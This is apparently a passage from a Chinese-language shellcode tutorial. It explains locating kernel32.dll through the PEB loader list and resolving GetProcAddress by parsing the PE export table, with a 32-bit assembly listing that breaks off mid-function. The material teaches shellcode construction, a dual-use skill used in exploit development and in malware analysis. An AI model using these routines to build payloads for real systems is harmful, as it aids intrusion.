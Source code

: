 

![](../../../static/images/2022-02-16-17-31-09.png)

add ebx, eax 的含义是将PE头的地址保存到ebx中。从PE头向下偏移0x78就是PE文件相对于PE头的导出表偏移地址，后续就是从PE文件寻找导出函数地址了，根据公开的一些Shellcode，可以封装出一些常用的过程，比如从Kernel32.dll中寻找GetProcAddress API的地址，以便后续传入API的名字自动帮助我们去寻找API的地址。

```bash
GetKernel32BaseAddr:
    push ebp
    mov ebp,esp
    sub esp,0x40
    xor ebx, ebx            ; EBX = 0x00000000
    mov ebx, [fs:ebx+0x30]  ; EBX = Address_of_PEB
    mov ebx, [ebx+0xC]      ; EBX = Address_of_LDR
    mov ebx, [ebx+0x1C]     ; EBX = 1st entry in InitOrderModuleList / ntdll.dll
    mov ebx, [ebx]          ; EBX = 2nd entry in InitOrderModuleList / kernelbase.dll
    mov ebx, [ebx]          ; EBX = 3rd entry in InitOrderModuleList / kernel32.dll
    mov eax, [ebx+0x8]      ; EAX = &kernel32.dll / Address of kernel32.dll
    add esp,0x40
    mov esp,ebp
    pop ebp
    ret

GetProcAddrFuncAddr:
    push ebp
    mov ebp,esp
    sub esp,0x40
    xor ecx, ecx
    mov ebx, [ebp + 8] ; EBX = Base address
    mov edx, [ebx + 0x3c]    ; EDX = DOS->e_lfanew
    add edx, ebx             ; EDX = PE Header
    mov edx, [edx + 0x78]    ; EDX =  export table
    add edx, ebx             ; EDX = Export table
    mov esi, [edx + 0x20]    ; ESI =  namestable
    add esi, ebx             ; ESI = Names table
    xor ecx, ecx             ; EXC = 0
    Get_Function:
            inc ecx                  ; Increment the ordinal
            lodsd                    ; Get name 
            add eax, ebx             ; Get function name
            cmp dword [eax], 50746547h       ; GetP
            jnz Get_Function
            cmp dword [eax + 0x04], 41636f72h ; rocA
            jnz Get_Function
            cmp dword [eax + 0x08], 65726464h ; ddre
            jnz Get_Function
    mov esi, [edx + 0x24]                ; ESI =  ordinals
    add esi, ebx                         ; ESI = Ordinals table
    mov cx, [esi + ecx * 2]              ; Number of function
    dec ecx
    mov esi, [edx + 0x1c]                ;  address table
    add esi, ebx                         ; ESI = Address table
    mov edx, [esi + ecx * 4]             ; EDX = Pointer()
    add edx, ebx                         ; EDX = GetProcAddress
    mov eax,edx
    add esp,0x40
```